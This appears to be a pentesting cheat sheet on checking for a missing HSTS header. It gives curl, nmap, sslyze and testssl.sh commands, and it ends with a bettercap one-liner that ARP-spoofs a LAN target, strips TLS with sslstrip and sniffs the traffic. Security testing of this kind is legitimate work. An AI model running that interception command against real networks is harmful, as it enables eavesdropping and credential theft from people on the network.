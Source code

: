 # HTTP Strict Transport Security

## Check List

* [ ] Review the HSTS header and its validity.

## Cheat Sheet

### Methodology

{% stepper %}
{% step %}
Access the Target URL and Inspect the Response Headers Use a tool such as **Burp Suite**, **cURL**, or **browser dev tools** to inspect the HTTP response headers The best way is to use this cheat sheet Example using cURL
{% endstep %}

{% step %}
Check for HSTS Header Confirm the absence of the following header in the server response `Strict-Transport-Security` _The best way to exploit and exploit this vulnerability is to use a cheat sheet_
{% endstep %}
{% endstepper %}

***

### Recon Header

#### [cURL](https://curl.se/)

```bash
curl -s -D- $WEBSITE | grep -i strict
```

#### [Nmap](https://nmap.org/)

```bash
nmap -sS -sV --mtu 5000 --script ssl-enum-ciphers $WEBSITE
```

### Scan Vulnerabilities

#### [sslyze](https://github.com/nabla-c0d3/sslyze)

```bash
sslyze $WEBSITE
```

#### [testssl.sh](https://github.com/drwetter/testssl.sh)

```bash
testssl $WEBSITE
```

### MitM

#### [Bettercap](https://www.bettercap.org/)

{% hint style="info" %}
Interface Network
{% endhint %}

```bash
INTERFACE=$(ip -o -4 addr show | awk '{print $2}' | grep -v "lo" | head -n 1)
```

{% hint style="info" %}
MitM on LAN
{% endhint %}

```bash
bettercap -iface $INTERFACE -eval "set arp.spoof.targets $TARGET; arp.spoof on; http.proxy on; http.proxy.sslstrip true; net.sniff on"
```
